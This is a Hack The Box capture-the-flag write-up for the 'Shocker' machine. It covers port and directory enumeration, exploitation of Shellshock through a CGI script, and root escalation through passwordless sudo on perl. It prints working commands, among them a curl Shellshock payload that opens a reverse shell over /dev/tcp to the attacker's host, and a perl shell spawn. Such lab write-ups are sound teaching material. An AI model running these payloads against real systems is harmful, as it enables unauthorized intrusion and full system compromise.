







## Overview

Shocker is an Ubuntu box that is vulnerable to the [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)) vulnerablility. ShockShock alows for environment variables that specify a function definition to be arbitrarily defined within bash. Bash continues to process shell commands after the function definition which allows for abuse in the form of code injection. By exploiting this vulnerability I was able to embed a bash command in the "User Agent" http header to create a reverse shell which provided initial foothold as user shelly. Shelly was able to run sudo without password for perl which was used to spawn a shell as root.

## Enumeration

**Software**

* Ubuntu 16.04.3 LTS
* Apache 2.4.18
* Sudo 1.8.16-0ubuntu1.5

**Port Scan**

```
nmap -vv -Pn -sT -A -p- 10.10.10.56 -oN /mnt/data/boxes/shocker/_full_tcp_nmap.txt
```

* 80/tcp - http
* 2222/tcp - ssh

**gobuster**

```
gobuster dir -u http://10.10.10.56 -w ~/tools/SecLists/Discovery/Web-Content/common.txt -t 40
```

* /.hta (Status: 403)
* /.htpasswd (Status: 403)
* /.htaccess (Status: 403)
* /cgi-bin/ (Status: 403)
* /index.html (Status: 200)
* /server-status (Status: 403)


```
gobuster dir -u http://10.10.10.56/cgi-bin/ -w ~/tools/SecLists/Discovery/Web-Content/common.txt -t 40 -x sh
```

* /.htpasswd (Status: 403)
* /.htpasswd.sh (Status: 403)
* /.hta (Status: 403)
* /.hta.sh (Status: 403)
* /.htaccess (Status: 403)
* /.htaccess.sh (Status: 403)
* /user.sh (Status: 200)


## Steps (user)

Some background: There was quite a bit of trial and error involved in the enumeration phase on this box. The normal wordlists I use were not finding anything (directory-list-2.3-small/medium.txt) so I tried some different ones found on [SecLists](https://github.com/danielmiessler/SecLists). Once I found cgi-bin/ I ran a scan again with gobuster, looking for shell files and finally found user.sh.

I browsed to http://10.10.10.56 and was brought to a page containing an image of a bug with the caption "don't bug me".



Looking at the gobuster results from earlier, I browsed to http://10.10.10.56/cgi-bin/user.sh and opened the script to take a look and confirmed it was definitely executing bash comands.



Considering the box name was "Shocker", I tested to see if it was vulnerable to ShellShock by having the target execute a command to ping my box.

I set up tcpdump to listen for icmp only on tun0 (tcpdump -i tun0 icmp) and ran the curl command with function definition followed by the ping command

```
curl -H "User-Agent: () { :; }; /bin/ping -c 1 10.10.14.23 " http://10.10.10.56/cgi-bin/user.sh
```

I received a ping from the target.



Now that I knew I could execute commands I set up a netcat listener (nc -lvnp 4200) and added a reverse shell to the curl command. Once run I received a callback and shell as user shelly.

```
curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.12/4200 0>&1" http://10.10.10.56/cgi-bin/user.sh
```




## Steps (root/system)


One of the first things I do is run sudo -l which lists the allowed commands for the user. The output of this command showed that user Shelly could run perl as root with no password

> [sudo](https://linux.die.net/man/8/sudo) allows a permitted user to execute a command as the superuser or another user, as specified by the security policy.



Searching GTFOBins for perl I found a command that could be used to spawn a shell. Running the command with sudo gave me shell as root.

> [GTFOBins](https://gtfobins.github.io/) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions

```
sudo perl -e 'exec "/bin/sh";'
```


